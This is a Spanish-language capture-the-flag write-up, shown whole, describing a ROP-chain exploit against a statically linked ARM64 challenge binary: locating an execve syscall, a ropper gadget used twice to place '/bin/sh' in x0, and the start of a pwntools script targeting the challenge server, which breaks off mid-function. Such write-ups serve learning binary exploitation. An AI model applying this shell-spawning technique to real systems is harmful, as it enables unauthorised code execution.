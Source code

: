 ## Syscall

Antes de pasar a crear nuestra ROP-chain debemos encontrar una via de ganar una shell.

El binario esta estaticamente enlazado asi que no podemos hacer un ret2libc o algo por el estilo.

Buscando la cadena "/bin/sh" encontramos una funcion que invoca a otra que hace esto tomando como parametro la misma:

<img width="867" height="209" alt="2025-07-30-142453_867x209_scrot" src="https://github.com/user-attachments/assets/714a5d73-d206-4a1c-84e7-c6886f444b5f" />

Esto es una syscall!

En ARM64 el numero de syscall se especifica en `x8` y los argumentos se pasan via `x0-x5`

En nuestro caso es 0xdd(221), que coincide con `execve`:

<img width="1361" height="613" alt="2025-07-30-163515_1361x613_scrot" src="https://github.com/user-attachments/assets/78e3c26b-cfa7-450b-ad0d-955241e0ce5d" />
Referencia:https://arm64.syscall.sh

## ROP

Debemos conseguir llamar a la syscall con un parametro que apunte a `/bin/sh\x00`.

Para encontrar los gadgets podemos usar **ropper** o **ROPgadget**.

En arm es mas dificil encontrar gagets utiles porque debe contener algo como `ldp x29,x30, [sp]` o sus variantes con notacion infija y posfija para poder concatenarlos.

Usando ropper me llamó la atención este en particular:
```
 # 0x0000000000425ef0: mov x0, x19; ldp x19, x20, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;
```

Este gadget mueve el contenido de `x19` a `x0`, y luego copia el contenido de `sp + 0x10` en `x19`.

Si las operaciones estuviesen invertidas fuese perfecto pero como no lo estan opté por llamarlo dos veces, la primera para ajustar la direccion de `/bin/sh\x00` en `x19` y la segunda para copiarla en `x0`.

*Nota: Habia un gadget que lo resolvia en 1 paso pero este fue  el primero que encontré.*

#### Exploit final

``` py
#!/usr/bin/env python3

from pwn import *

elf = ELF("./chal")
#libc = ELF("./")
#ld = ELF("./")

context.binary = elf
context.terminal = ['tmux', 'splitw', '-hp', '70']
#context.log_level = "debug"
context.arch = 'aarch64'
context.bits = 64
context.endian = 'little'
gs = '''
break *0x0000000000425ef0
'''
domain= "chal.wwctf.com"
port = 32873
def start():
    if args.REMOTE:
        return remote(domain, port)
    if args.GDB:
```